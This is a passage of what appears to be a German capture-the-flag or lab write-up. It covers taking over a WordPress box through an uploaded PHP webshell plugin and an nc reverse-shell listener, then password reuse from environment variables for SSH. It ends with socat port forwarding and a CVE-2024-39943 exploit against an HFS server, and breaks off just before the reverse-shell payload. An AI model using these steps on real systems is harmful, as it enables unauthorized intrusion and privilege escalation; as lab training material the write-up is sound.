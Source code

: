 ```bash
Alternativ wurde ein Plugin (shell2.zip) mit einer PHP-Shell hochgeladen und aktiviert.
Mit der Webshell wurde eine Reverse Shell zu unserem Listener aufgebaut:

      
# Listener auf Angreifer-Maschine
nc -lvnp 4445

    
 

Wir erhielten eine Shell als www-data.
Privilege Escalation (Rechteausweitung)
Benutzer 'matrioshka' - Passwortfund in Umgebungsvariablen

Als www-data wurden die Umgebungsvariablen ausgelesen:

      
env

     

Dabei wurde das Datenbankpasswort gefunden: WORDPRESS_DB_PASSWORD=Fukurokuju für den User WORDPRESS_DB_USER=matrioska.
Dieses Passwort ermöglichte den SSH-Login als Benutzer matrioshka:

      
ssh matrioshka@192.168.2.180 # Passwort: Fukurokuju
 

    sudo -l: ergab keine Sudo-Rechte für matrioshka.

    Die User-Flag wurde in ~/user.txt gefunden.

    ss -tulpe zeigte lokal lauschende Dienste, darunter:

        Port 9090 (127.0.0.1): HFS (HTTP File Server)

        Port 8080 (127.0.0.1): Apache/PHP (WordPress-Instanz)

Identifizierung des HFS Servers

      
curl -v http://127.0.0.1:9090
 
Der Dienst wurde als HFS Version 0.52.9 identifiziert.
Proof of Concept: Ausnutzung HFS (angelehnt an CVE-2024-39943 - RCE als Root)

Der HFS-Dienst lief als Root (oder in einem als Root laufenden Docker-Container).

    Port Forwarding: socat TCP-LISTEN:8000,fork TCP4:172.19.0.2:80 & (wobei 172.19.0.2 die interne IP des HFS-Containers war).

    HFS Admin Login: Zugriff auf http://192.168.2.180:8000 und Login mit admin:admin.

    Exploit Vorbereitung: Ein Exploit für HFS 0.52.9 (z.B. PoC für CVE-2024-39943) wurde verwendet.

        Admin-Cookie wurde aus dem Browser extrahiert.

        Das Exploit-Skript wurde ausgeführt, um den Upload von busybox nach /tmp/ im HFS-Container zu ermöglichen.

    Reverse Shell Payload:

```